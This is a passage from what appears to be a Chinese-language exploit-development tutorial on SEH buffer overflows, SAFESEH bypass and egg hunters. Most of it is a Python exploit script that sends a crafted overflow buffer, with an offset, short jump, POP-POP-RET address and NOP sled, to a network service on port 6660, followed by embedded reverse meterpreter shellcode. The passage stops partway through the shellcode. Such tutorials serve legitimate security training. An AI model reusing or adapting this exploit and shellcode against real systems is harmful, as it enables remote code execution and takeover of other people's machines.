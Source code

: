 ![](img/a58a884f-8baa-43f0-b726-980a8d468454.png)

1.  我们已经知道了崩溃字节和绕过 SAFESEH 的地址。

1.  现在我们需要添加我们的蛋猎手，然后使用它来跳转到我们的 shellcode。

1.  正如我们所知，蛋猎手是一种 shellcode，使用 shellcode 的基本规则是确保它没有任何坏字符。

1.  让我们看看我们之前制作的漏洞利用：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72" 
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1" 
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
```